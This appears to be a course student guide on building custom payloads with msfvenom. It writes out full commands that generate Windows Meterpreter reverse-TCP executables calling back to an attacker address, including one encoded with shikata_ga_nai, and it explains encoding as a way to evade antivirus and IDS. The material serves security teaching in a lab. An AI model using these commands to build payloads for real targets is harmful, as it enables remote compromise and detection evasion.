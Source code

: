## 17.3 Student Guide: Custom Payloads with msfvenom

### Overview

In this lesson, we will conclude our two units on pen testing by crafting custom payloads. 

### Class Objectives

By the end of class, you will be able to:

- Create custom payloads.

- Add payloads to websites by altering HTML. 

- Assess their overall penetration test engagement skills. 

### Slideshow

- Slides for this lesson are available on Google Drive, located here: [17.3 Slides](https://docs.google.com/presentation/d/1ZfjDj2n9JO1fUG7bulmC2RT_9Ckgjs6itn4Do282oEY/edit#slide=id.g4789b2c72f_0_6)

____


### 01. Custom Payloads (0:30)

Think back to the last class. While making a Meterpreter session, we used the following custom payload: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

Today, we'll learn how to create payloads like this one using Metasploit.

- Remember a payload is the shell code that runs when an exploit successfully compromises a system.

- Attackers typically build custom payloads that they can use in phishing emails or add to their websites. When unsuspecting users click the link for the malicious payload, their computers are infected.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response,  AV solutions, and IPS/IDS implementation. 

- While patching mitigates vulnerable services, attackers will deliver custom payloads through social engineering if they cannot exploit services.

- Since C2 servers have dynamic IP addresses, attackers often have to create their own customized payloads that call back to their C2 server using SYN packets.

- Custom payloads allow customization of various payload options such as:

  - Architecture
  - Shell type
     - Reverse
     - Bind
     - Meterpreter
     - Other proprietary C2 shell
 

In order to create these payloads, attackers  use a tool called `msfvenom`. 

-  `msfvenom` is a Metasploit framework tool used to generate and encode payloads. 


- `msfvenom` is part of the Metasploit framework, but Metasploit does not need to be running in order to use `msfvenom`. 


While it's relatively easy to create custom payloads, the real challenge is creating a payload that bypasses network detection by IDS and antivirus (AV) solutions.

**Encoding** is a method used to evade detection tools.

   - It changes the signature of an exploit or payload, creating a new signature that has no written rule.

   - This change in signature allows payloads to bypass detection from AV and IDS tools that detect known malicious signatures.

We'll now walkthrough the basics of `msfvenom`'s help menu and use some basic command options available for use with encoders, payloads, and formats.

####  Custom Payload Creation with msfvenom Demonstration

Log into the  Kali Linux (Attacker) VM.

1. First, we'll look at `msfvenom`'s help menu to see which command options are available.

    Launch the terminal and type the following command:

      - `msfvenom`

      ![MSV 1](Images/MSV_1.png)

    - We are presented with a list of all available command options for `msfvenom`.

   Let's take a look at some of the most important options in this list:

    - `-p` designates the Metasploit payload we want to use.
    - `-e` designates the encoder we want to use.
    - `-a` designates the architecture we want to use (the default is `x86`).
    - `-s` designates the maximum size of the payload.
    - `-i` designates the number of iterations with which to encode the payload.
    - `-x` designates a custom executable file to use as a template.
    - `-o` designates an output file to be created, specifying its name and location.

2. Next, list all of the available payloads: 

   Type the following command:

   - `msfvenom -l payloads`

      - Output should provide a list of all currently installed payloads in alphabetical order by name and description.


       ![MSV 4](Images/MSV_4.png)

3. List all of the executable file and transform formats supported by `msfvenom`.

   Type the following command:

   - `msfvenom -l formats`

      - We're presented with a list of all of the file formats in which payloads can be delivered.

     ![MSV 2](Images/MSV_2.png)

4. List  `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     Type the following command:

     - `msfvenom -l encoders`

      ![MSV 3](Images/MSV_3.png)

   Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. `msfvenom` does both actions, and more, in a single command.


#### Msfvenom command structure

Now we'll cover the basics of `msfvenom`'s custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

      - `msfvenom`: Launches the `msfvenom` program.

      - `-p`: Indicates payload. 

      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.

      - `-a x86`: Designates the architecture we will use. `x86` is default.

      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.

      - `-f exe`: Indicates the file type to create. In this case, `.exe`.

      - `-o /tmp/malware.exe`: Creates an output file, naming the file (`malware.exe`) and location (inside the `/tmp` directory).

- Next, let's breakdown the msfvenom we used last class:  

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.



### 02.  Creating Custom Payloads 

- [Activity File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Unsolved/README.md)

### 03. Review Creating Custom Payloads Activity 

- [Solution File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Solved/README.md)

### 04.  Pen Testing Homework (To End of Class) 

- [Activity File: Penetration Test Engagement](Activities/07_Pentest_Engagement/Unsolved/README.md)

--- 
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  